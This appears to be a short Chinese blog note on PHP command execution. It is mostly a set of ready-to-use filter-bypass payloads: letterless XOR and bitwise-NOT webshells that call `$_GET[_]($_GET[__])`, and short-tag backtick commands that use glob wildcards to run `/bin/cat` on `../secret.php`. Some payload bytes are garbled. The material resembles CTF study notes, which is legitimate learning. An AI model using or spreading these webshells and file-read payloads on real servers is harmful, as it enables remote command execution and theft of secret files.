 ```yaml
---
title: php-命令执行
date: 2018-07-18 15:58:22
tags:
passwd: 345678
---
```


1. webshell

```shell
<?=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);
=> 
$_GET[_]($_GET[__]);
=>
<?=`{${~"����"}[_]}`;
// echo -ne '<?=`{${~"\xa0\xb8\xba\xab"}[_]}`;'
```

2. 写文件&读文件

php的标签<?php存在字母肯定不行，尝试<?发现不解析，没有开启段标签。
查资料后发现<?=可以作为php标签。<?=的含义为<?php echo，是PHP 5.4.0以后的新特性
**不管是否设置 short_open_tag php.ini 选项，<?= 将总是可用。**

```shell
<?=$_=`/???/??? ../??????.???>@#$`;
=> 
/bin/cat ../secret.php>@#$
=> 
cat ../secret.php>@#$
=>
<?=`/???/??? ../??????.??? > ===`
=>
<?=`/???/??? ../*`;
```


